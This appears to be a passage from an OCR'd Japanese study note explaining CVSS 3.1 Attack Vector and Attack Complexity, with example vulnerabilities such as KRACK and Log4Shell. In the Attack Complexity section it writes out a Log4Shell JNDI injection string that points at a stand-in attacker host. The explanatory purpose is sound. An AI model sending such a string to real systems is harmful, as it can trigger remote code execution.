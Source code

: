 
### **2. AV:A（隣接）**
- **脆弱性例:** KRACK攻撃 (WPA2プロトコルの脆弱性)  
- **攻撃内容:** 攻撃者がWi-Fiネットワーク内に存在し、鍵の再インストールの脆弱性を悪用して通信データを盗聴する。  
- **影響範囲:** 特定のネットワーク環境に限定されるが、データ漏洩や不正アクセスのリスクが高い。  

---

### **3. AV:L（ローカル）**
- **脆弱性例:** Windowsの特権昇格の脆弱性 (CVE-2022-21882)  
- **攻撃内容:** 攻撃者が標的システムにログインし、特定の操作を行うことで、管理者権限を奪取する。  
- **影響範囲:** 物理的な接触やアカウントの不正入手が必要。  

---

### **4. AV:P（物理）**
- **脆弱性例:** USBデバイスによる悪意のあるファームウェアインジェクション  
- **攻撃内容:** 攻撃者がターゲットシステムにUSBデバイスを接続し、ファームウェアを不正に改変することでシステムを制御。  
- **影響範囲:** システムに直接触れる環境が前提だが、データ窃取やバックドアの設置が可能。  

---

## 🚨 **まとめ**
- **AV:N** → ネットワーク経由で攻撃可能 → **最も危険**
- **AV:A** → 隣接ネットワーク環境からの攻撃 → **比較的危険**
- **AV:L** → ローカル環境の侵入後の攻撃 → **対策が容易**
- **AV:P** → 物理的な接触が必要 → **最も制限される**

CVSSスコアの評価では、「AV:N」のように**遠隔から攻撃が可能な脆弱性**は、リスクがより高く評価される傾向にあります。対策の優先度を判断する際に重要な要素となるため、AVの理解は非常に重要です。


# 攻撃条件の複雑さ（Attack Complexity, AC）

**攻撃条件の複雑さ (Attack Complexity, AC)** は、攻撃を成功させるために特定の条件や前提がどの程度必要かを評価する指標です。CVSS 3.1 では、以下の2つのレベルで評価されます。

| 攻撃条件の複雑さ (AC) | 説明 | 具体例 |
|------------------------|-------|---------|
| **AC:L (Low / 低)**     | 攻撃を実行するための特別な条件がほとんどなく、成功させるのが容易。<br>システムの設定ミスや既知のエクスプロイトが容易に利用できる。 | - **CVE-2021-44228 (Log4Shell)**<br>→ 特別な環境や操作不要。悪意のある文字列をログに送るだけでリモートコード実行が可能。 |
| **AC:H (High / 高)**     | 攻撃を成功させるには、特定の状況や複雑な環境が必要。<br>例えば、通信のタイミングが重要、特定のユーザの行動が必要など。 | - **CVE-2020-1337 (Windows Print Spooler権限昇格)**<br>→ 正確なタイミングでサービスの動作を狙う必要があり、成功の再現性が低い。 |

---

## 🔍 **具体的な条件の例**
### **AC:L（低） - 攻撃が容易な事例**
- **条件例 1:**  
  攻撃者がリモートから任意のコマンドを実行できるエクスプロイトが存在し、特別な事前操作が不要。  
  **例:** Log4Shell（CVE-2021-44228）  
  - **手順:** 攻撃者は、対象のアプリケーションに特定のJNDI Lookup文字列 (`${jndi:ldap://malicious.com/a}`) を送信するだけでリモートコード実行が可能。  
  - **解説:** エクスプロイトは非常にシンプルで、容易に再現できるため「AC:L」に分類されます。  
